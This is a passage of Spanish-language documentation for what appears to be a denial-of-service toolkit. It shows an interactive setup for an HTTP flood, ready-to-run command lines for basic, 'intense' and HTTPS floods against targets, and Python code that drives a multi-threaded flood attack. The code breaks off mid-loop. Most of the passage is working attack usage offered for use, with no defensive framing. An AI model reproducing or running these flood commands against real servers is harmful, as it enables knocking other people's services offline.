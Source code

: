 ### Paso 4: Ingresar Parámetros

```
[*] Configurando HTTP-Flood...

    [?] IP/Dominio objetivo: 192.168.1.1
    [?] Puerto (default 80): 80
    [?] Número de threads (default 100): 50
    [?] Duración en segundos (default 60): 120

[!] ADVERTENCIA: Vas a ejecutar HTTP-Flood contra 192.168.1.1
    ¿Continuar? (s/n): s
```

---

## HTTP-Flood

### Descripción
Envía múltiples solicitudes HTTP GET/POST al objetivo para abrumar el servidor.

### Uso Directo

```bash
# HTTP-Flood básico
python python/attacks.py --attack http_flood --target 192.168.1.1 --port 80 --threads 50 --duration 60

# HTTP-Flood intenso
python python/attacks.py --attack http_flood --target example.com --port 80 --threads 500 --duration 300

# HTTP-Flood contra HTTPS
python python/attacks.py --attack http_flood --target secure.example.com --port 443 --threads 100 --duration 120
```

### Uso Programático (Python)

```python
from python.core.http_flood import HTTPFlood
import threading
import time

# Crear instancia
flood = HTTPFlood('192.168.1.1', 80)

# Enviar solicitud GET
flood.send_request('GET')

# Enviar solicitud POST
flood.send_post_request(data='param1=value1&param2=value2')

# Ataque multi-thread
def attack_worker():
    for i in range(100):
        try:
            flood.send_request()
            print(f"[+] Solicitud {i+1} enviada")
        except Exception as e:
            print(f"[-] Error: {e}")

threads = []
for i in range(10):
```